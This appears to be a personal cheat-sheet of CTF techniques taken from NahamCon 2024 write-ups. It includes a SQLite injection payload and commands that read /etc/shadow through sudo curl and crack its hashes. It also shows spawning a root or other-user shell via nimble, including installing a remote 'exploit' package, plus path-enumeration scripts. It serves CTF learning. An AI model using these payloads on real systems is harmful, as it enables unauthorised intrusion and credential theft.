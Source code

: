 # This is a file i'll include things i didn't know and or find after reading some write-ups

## apps

```
https://play.google.com/store/apps/details?id=com.arara.q
```

## sql injections

```
' || (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'))--
```

## Privilege Escalation

### ```cat .bash_history```

This might show what someone has already done.
Maybe shows passwords from sshpass.

### ```cat /etc/passwd | grep sh```

This might show some other users, and we grep to what users have shells.

### ```sudo -l```

shows what sudo accesses a users have

#### Nahamcon-2024/curly_fries challenge

For this challenge we logged in as user:userpass with ssh and found access to the fry users directory, including its history file, and found the fry user's password, making us able to switch to the fry user.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-curlly-fries-sudo-l.png)

This shows the user fry can execute a certain curl command as root without the need for a password.
Using ```sudo curl 127.0.0.1:8000/health-check file:///etc/shadow```.
Then we can crack the hashes of the machine and pawn it.

See ```https://github.com/LazyTitan33/CTF-Writeups/blob/main/Nahamcon-2024/Misc/Curly_Fries.md```

#### Nahamcon-2024/jack_be part 1

For this challenge we logged in as user:userpass with ssh.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-Jack-Be.png)

This shows the user jack can run a use nim run as root without a password.
So we create a nim project, and file that executes commands.

```bash
nimble init .

echo '#main.nim

import osproc

proc main() =
    let command = "/bin/bash"
    let result = execCmd(command)
    echo result

when isMainModule:
    main()'>./src/main.nim

chmod 777 .
nimble build
sudo -u jack /usr/bin/nimble run
```

And where in jack

#### Nahamcon-2024/jack_be part 2

In part 1 we logged in to another user.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-Jack-Be2.png)

From here we can continue with ```sudo -l``` and we can see we can use ```sudo nimble install *``` without a password and can continue escalating our privilege with package you made yourself.

```bash
sudo -l
sudo -u root /urs/bin/nimble install https://github.com/ThorD125/nim-exploit-lib
```

See `https://game0v3r.vercel.app/blog/nahamconctf-miscellaneous`

## extra s

Very specific case but still interesting.

### Make Self Extracting Sccript

If there is a file,
Including the hex data of the file to extract,
The following command can be used to write it to a file:
```tail -n 75 self_extractor > result```

### Iframe bruteforcing

```javascript
for (let index=0; index < 15; index++ ) {
    const url = `${window.location.href}/pathtobruteforce/${index}`;
    document.write(`${index}: ${url}`);
    document.write(`<iframe sandbox style="width: 100%" src="${url}"></iframe>`);
}```

### Fetch Enumerating

```javascript
for (let index = 0; index < 200; index++) {
    const url = `${window.location.href}/pathtobruteforce/${index}`;
    await fetch(url).then(r => {
        if(r.status!=404) console.log(url);
    });
}
```

### Curl Enumerating

```curl --silent --fail "https://example.com/[0-10]" -o "out/post_#1.txt" -s -w '%{url} %{http_code}\n```
